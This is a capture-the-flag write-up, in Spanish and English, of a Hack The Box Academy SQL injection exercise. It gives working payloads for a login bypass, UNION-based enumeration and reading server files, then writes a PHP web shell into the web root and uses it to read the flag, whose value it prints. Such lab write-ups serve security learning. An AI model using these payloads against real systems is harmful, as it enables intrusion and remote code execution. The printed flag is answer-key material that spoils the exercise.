






# Write-up: Fundamentos de inyección SQL

| Vulnerabilidad | Dificultad | Plataforma | Conceptos Clave |
| :--- | :--- | :--- | :--- |
| Inyección SQL | Medium | Hack The Box Academy | Detección de SQLi, `UNION`-based, Exfiltración de datos |

---

# Context

The company Inlanefreight has contracted you to perform a web application assessment against one of their public-facing websites. In light of a recent breach of one of their main competitors, they are particularly concerned with SQL injection vulnerabilities and the damage the discovery and successful exploitation of this attack could do to their public image and bottom line.

They provided a target IP address and no further information about their website. Perform a full assessment of the web application from a "grey box" approach, checking for the existence of SQL injection vulnerabilities.

# Excersise

Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.

# Process

## Step 1
Try to access without credentials using:

```SQL
admin' or '1' = '1'
```



## Step 2
Once we have access to the site we see a table with information.

We need to check how many columns has this table so we can do a `UNION` with another info.

In this case it has 5, we know that because if we try to `ORDER BY 6-- `it throws an error, but with `ORDER BY 5-- ` it works.


## Step 3
Now we want to know if we have super privileges, the current user and the version of the DBMS.

To do that we can use:
```SQL
cn' UNION SELECT 1, super_priv, CURRENT_USER(), @@VERSION, 5 FROM mysql.user WHERE user="root"-- 
```


## Step 4
To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We already have the `FILE` privilege enabled, we need to know the value of the `secure_file_priv`.
```SQL
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```


As we notice, the second column is empty, that means the variable is **not** enabled.

## Step 5
A usual route for the configuration file in Debian/Ubuntu systems is `000-default.conf`

Now let's get the route to save the file with:
```SQL
cn' union select 1, load_file('/etc/apache2/sites-enabled/000-default.conf'), 3, 4, 5--
```
We are gonna get a large text with a DocumentRoot value, in this case the value is `/var/www/html`.


## Step 6
Save the file in the right path with:
```SQL
cn' union select 1,'<?php echo "<pre>"; system($_GET["cmd"]); echo "</pre>"; ?>',3,4,5 into outfile '/var/www/html/dashboard/shell.php'-- 
```

## Step 7
Explore the files of the server with the `shell.php` file we just created:
http://94.237.57.115:30683/dashboard/shell.php?cmd=ls%20../../../../

## Step 8
Read the flag with 
http://94.237.57.115:30683/dashboard/shell.php?cmd=cat%20../../../../flag_cae1dadcd174.txt


### Result
> 528d6d9cedc2c7aab146ef226e918396

# Conclusion
This exercise demonstrates the critical importance of input validation. A simple unprotected search field can lead to a complete database compromise. Code-level remediation is the only effective solution.
